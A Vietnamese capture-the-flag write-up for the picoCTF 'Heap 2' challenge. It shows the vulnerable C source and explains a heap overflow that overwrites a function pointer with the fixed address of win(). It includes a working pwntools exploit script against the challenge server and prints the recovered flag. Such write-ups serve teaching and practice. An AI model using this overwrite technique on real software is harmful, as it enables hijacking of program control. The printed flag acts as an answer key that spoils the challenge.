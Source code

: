 # Heap 2
Challenge này cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`.
Mở file `chall.c` thì ta có source code của challenge này như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Giao diện của challenge này nhìn giống như bài `heap_0` và bài `heap_1`, và hãy nhìn vào hàm `check_win()`:

``` c
void check_win() { ((void (*)())*(int*)x)(); }
```

Nôm na là hàm này sẽ lấy 4 byte đầu tại vùng nhớ mà `x` trỏ đến, ép thành địa chỉ hàm và gọi hàm tại địa chỉ đó. 

$=>$ **Nếu vùng nhớ mà `x` trỏ đến chứa địa chỉ hàm `win()`, thì hàm `win()` sẽ được gọi là ta có flag.**

Dùng lệnh `checksec` để kiểm tra các cơ chế bảo mật được bật trong file binary, ta thấy PIE không được bật $=>$ các địa chỉ của hàm, biến của chương trình là cố định. Vậy thì địa chỉ hàm `win()` sẽ cố định, không thay đổi nên có thể dễ dàng ghi đè.

![alt text](image.png)

Ta sẽ sử dụng GDB để tìm địa chỉ hàm `win()` như sau:

![alt text](image-1.png)

$->$ Ta có địa chỉ hàm `win()` là: `0x00000000004011a0`.

Giống như bài `heap_0` và bài `heap_1`, offset tính từ địa chỉ mà input bắt đầu được nhập vào đến địa chỉ mà con trỏ `x` trỏ đến là 32.

![alt text](image-2.png)

Ta nhập 32 ký tự `a` rồi sau đó nhập địa chỉ của hàm `win()` (theo định dạng little endian).

``` python
from pwn import *

#p = process('./chall')
p = remote('mimas.picoctf.net', 58675)
write = b'2'
flag = b'4'
payload = 32 * b'a'
payload += b'\xa0\x11\x40\x00' # địa chỉ hàm win() theo định dạng little endian
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:
```
picoCTF{and_down_the_road_we_go_904e3edd}
```
